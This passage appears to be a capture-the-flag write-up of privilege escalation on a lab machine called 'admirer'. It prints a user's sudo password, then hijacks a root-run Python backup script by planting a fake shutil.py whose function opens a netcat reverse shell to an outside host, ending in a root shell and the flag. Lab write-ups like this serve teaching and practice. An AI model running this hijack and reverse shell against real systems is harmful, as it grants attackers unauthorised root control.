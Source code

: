 #### 4.1. Some basic enumeration

```
waldo@admirer:~$ sudo -l
[sudo] password for waldo: &<h5b~yK3F#{PaPB&dA}{H>
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```
Note: `/opt/scripts/admin_tasks.sh` will run with `root` privilege

#### 4.2. Admin tasks

1) From `/opt/scripts/admin_tasks.sh`

```
...
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
...
```

2) Python backup script

```
waldo@admirer:~$ cat /opt/scripts/backup.py
#!/usr/bin/python3

from shutil import make_archive

src = '/var/www/html/'

# old ftp directory, not used anymore
#dst = '/srv/ftp/html'

dst = '/var/backups/html'

make_archive(dst, 'gztar', src)
```

#### 4.3. Abusing library highjacking in Python

1) Documentation

```
https://rastating.github.io/privilege-escalation-via-python-library-hijacking/
```

2) Python `sys` dependencies

```
waldo@admirer:~$ python3 -c 'import sys; print ("\n".join(sys.path))'

/usr/lib/python35.zip
/usr/lib/python3.5
/usr/lib/python3.5/plat-x86_64-linux-gnu
/usr/lib/python3.5/lib-dynload
/usr/local/lib/python3.5/dist-packages
/usr/lib/python3/dist-packages
```

3) Create fake `shutil.py`

```
waldo@admirer:~$ mkdir /tmp/lib && cd /tmp/lib
waldo@admirer:/tmp/lib$ cat << EOF > shutil.py
import os

def make_archive(a, b, c):
    os.system("nc 10.10.14.21 9999 -e '/bin/sh'")
EOF
```

4) Run the script with manipulated path to dependencies (runs our code)

```
waldo@admirer:~$ sudo PYTHONPATH=/tmp/lib /opt/scripts/admin_tasks.sh
```

5) Root reverse shell

```
# nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.187] 60374
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
5a64708527697bb9603b193ae29f660e
```
